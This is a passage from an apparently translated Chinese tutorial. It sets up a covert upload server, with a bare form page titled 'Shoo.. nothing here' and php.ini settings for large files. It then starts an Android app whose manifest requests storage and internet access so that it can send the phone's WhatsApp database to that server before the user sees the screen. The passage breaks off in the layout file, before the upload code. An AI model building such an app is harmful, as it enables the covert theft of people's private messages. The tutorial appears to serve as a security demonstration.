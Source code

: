     <html><head><title>Shoo.. nothing here</title></head><body><form method="post" enctype="multipart/form-data"><input type="file" name="file" id="file"><input type="submit" value="Submit"></form></body></html>


确信你配置了php.ini，便于上传（较大）文件。

    
    
    file_uploads = On
    post_max_size = 32M
    upload_max_filesize = 32M


我们需要的下一个步骤是能够上传WhatsApp数据库到这个网站的Android应用程序。我在Eclipse产生一个新的默认项目，做了一些修改。最重要的是我们需要一些访问SD卡、并上传到因特网的额外权限。因此我在AndroidManifest.xml文件添加以下行。

    
    
    <?xml version="1.0" encoding="utf-8"?>
    <manifest xmlns:android="http://schemas.android.com/apk/res/android"
        package="bb.security.whatsappupload"
        android:versionCode="1"
        android:versionName="1.0" >
    
        <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
        <uses-permission android:name="android.permission.INTERNET" /> 
    
        <uses-sdk
            android:minSdkVersion="8"
            android:targetSdkVersion="19" />
    
        <application
            android:allowBackup="true"
            android:icon="@drawable/ic_launcher"
            android:label="@string/app_name"
            android:theme="@style/AppTheme" >
    
            <activity
                android:name="bb.security.whatsappupload.MainActivity"
                android:label="@string/app_name" >
                <intent-filter>
                    <action android:name="android.intent.action.MAIN" />
    
                    <category android:name="android.intent.category.LAUNCHER" />
                </intent-filter>
            </activity>
        </application>
    
    </manifest>


我使用Eclipse默认产生的layout，但是我把TextView挪到了中间，并增加了文本尺寸。在你看到layout之前，上传魔法会发生，这是为了验证activity_main.xml足够完美。

    
    
    <RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
        xmlns:tools="http://schemas.android.com/tools"
        android:layout_width="match_parent"
        android:layout_height="match_parent"
        android:paddingBottom="@dimen/activity_vertical_margin"
        android:paddingLeft="@dimen/activity_horizontal_margin"
        android:paddingRight="@dimen/activity_horizontal_margin"
        android:paddingTop="@dimen/activity_vertical_margin"
        tools:context=".MainActivity" >
    